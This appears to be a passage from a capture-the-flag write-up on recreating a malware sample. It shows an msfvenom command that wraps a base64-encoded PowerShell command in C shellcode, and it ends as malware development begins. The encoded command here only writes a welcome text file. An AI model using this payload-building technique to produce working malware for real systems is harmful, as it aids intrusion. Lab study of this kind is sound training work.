 Let's start by listing some tools that will be important for us to complete our tasks.
1. I need a development environment, in this case I am opting for Microsoft Visual Studio 2022.
2. We will need to create our payload using msfvenom, using our kali machine.

The first thing we need to do is generate our payload with msfvenom. To do this, we use the following command on our Kali machine. In this case, we will use the same payload we collected from the malware during our dynamic analysis phase.

```bash
msfvenom -p windows/exec CMD="powershell.exe -enc TgBlAHcALQBJAHQAZQBtACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAHQAZQBtAHAAXABiAHQAbABvAC4AdAB4AHQACgBTAGUAdAAtAEMAbwBuAHQAZQBuAHQAIABDADoAXABXAGkAbgBkAG8AdwBzAFwAdABlAG0AcABcAGIAdABsAG8ALgB0AHgAdAAgACcAVwBlAGwAYwBvAG0AZQAgAHQAbwAgAEIAVABMAE8AIQAnAA==" -f c
```

With the command above we will generate a payload that will run powershell, exactly the same as CTF.

![Payload](/assets/images/ctf-btlo/2023-03-31_payload.webp){:class="img-responsive"}

After creating our payload, we will now start developing the malware.

